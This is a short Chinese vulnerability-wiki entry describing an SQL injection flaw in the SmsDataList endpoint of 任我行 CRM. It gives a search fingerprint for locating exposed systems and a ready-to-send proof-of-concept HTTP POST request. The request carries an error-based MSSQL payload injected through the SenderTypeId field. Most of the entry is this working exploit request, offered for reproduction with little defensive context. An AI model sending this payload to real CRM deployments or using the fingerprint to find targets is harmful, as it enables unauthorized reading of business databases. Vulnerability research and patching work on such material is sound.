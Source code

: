 # 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息

## 漏洞影响

<a-checkbox checked>任我行 CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"欢迎使用任我行CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691823257291-6328f717-116f-4bc7-9f49-4bb4673487e1.png)

验证POC

```php
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![img](/assets/PeiQi-Wiki/img/1691823280317-687cb156-d2cf-4968-9095-891b429a60a2.png)